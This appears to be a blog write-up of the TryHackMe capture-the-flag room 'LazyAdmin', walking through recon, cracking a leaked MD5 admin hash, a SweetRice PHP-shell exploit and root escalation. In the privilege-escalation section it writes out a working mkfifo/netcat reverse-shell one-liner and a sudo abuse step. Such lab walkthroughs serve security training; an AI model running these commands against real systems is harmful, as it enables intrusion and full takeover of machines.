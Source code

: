 ```yaml
---
layout: post
title: TryHackMe - LazyAdmin
date: 2023-04-23 17:24
category: ctf
author: Akymos
tags: [ctf, tryhackme]
anchor: true
description: Easy linux machine to practice your skills
---
```


<hr>
<h2>Table of Contents</h2>
<nav class="toc">
* toc
{:toc}
</nav>
<hr>
<div class="pb-1" />

## Room info
- **Name**: LazyAdmin
- **Link**: [https://tryhackme.com/room/lazyadmin](https://tryhackme.com/room/lazyadmin){:target="_blank"}
- **Subscription**: Free
- **Difficulty**: Easy
- **Description**: {{ page.description }}

### Questions
1. What is the user flag?
2. What is the root flag?

## Step 0 - Recon
### Nmap
``` bash
$ nmap -sC -sV 10.10.26.136
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-24 21:28 CEST
Nmap scan report for 10.10.26.136
Host is up (0.082s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.88 seconds
```
Nice, port 80 is open, but nothing interesting on it, only the default Apache page.
![LazyAdmin - Apache default page](/assets/images/ctf-lazyadmin/01.png){:class="post-image"}

### Gobuster
``` bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 10.10.26.136 -q
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.26.136/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 277]
```
We have a 'strange' directory: `/content`. Let's check it out.
![LazyAdmin - /content directory](/assets/images/ctf-lazyadmin/02.png){:class="post-image"}

### Gobuster on /content
``` bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 10.10.26.136/content -q
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/_themes              (Status: 301) [Size: 322] [--> http://10.10.26.136/content/_themes/]
/as                   (Status: 301) [Size: 317] [--> http://10.10.26.136/content/as/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.26.136/content/attachment/]
/images               (Status: 301) [Size: 321] [--> http://10.10.26.136/content/images/]
/inc                  (Status: 301) [Size: 318] [--> http://10.10.26.136/content/inc/]
/index.php            (Status: 200) [Size: 2198]
/js                   (Status: 301) [Size: 317] [--> http://10.10.26.136/content/js/]
```
Directory index is enabled. `/as` contains the admin panel of the website, but we don't have any credentials (YET).
The directory `/inc` contains another folder: `/inc/mysql_backup`. Inside it, we have a file called `mysql_bakup_20191129023059-1.5.1.sql`. Let's download it and check it out.
```php
<?php return array (
  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
......
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
......
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>
```
We have found the credentials for the admin panel: `manager:42f749ade7f9e195bf475f37a44cafcb` (MD5 hash).

### John the Ripper
``` bash
$ echo 42f749ade7f9e195bf475f37a44cafcb > hash.txt && john --format=RAW-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
***********      (?)     
1g 0:00:00:00 DONE (2023-04-24 21:59) 100.0g/s 3379Kp/s 3379Kc/s 3379KC/s coco21..redlips
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
So the admin account is:
- Username: `manager`
- Password: `***********`
![LazyAdmin - Admin panel](/assets/images/ctf-lazyadmin/03.png){:class="post-image"}

### Exploit
In this version of SweetRice, there is a vulnerability that allows us to use a PHP shell. We can use it to get a reverse shell.
[https://www.exploit-db.com/exploits/40700](https://www.exploit-db.com/exploits/40700){:target="_blank"}

## Question 1 - What is the user flag?
```sh
$ nc -lnvp 9001
listening on [any] 9001 ...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cat /home/itguy/user.txt
THM{***************************}
````
The user flag is: `THM{***************************}`

## Question 2 - What is the root flag?
### Privilege escalation
```sh
$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

$ ls -lha /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

$ # We can modify the file /etc/copy.sh
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.32.129 9002 >/tmp/f" > /etc/copy.sh
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.32.129 9002 >/tmp/f

$ sudo /usr/bin/perl /home/itguy/backup.pl
```

### Root.txt
```sh
$ nc -lnvp 9002
listening on [any] 9002 ...
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
THM{***************************}
```
The root flag is: `THM{***************************}`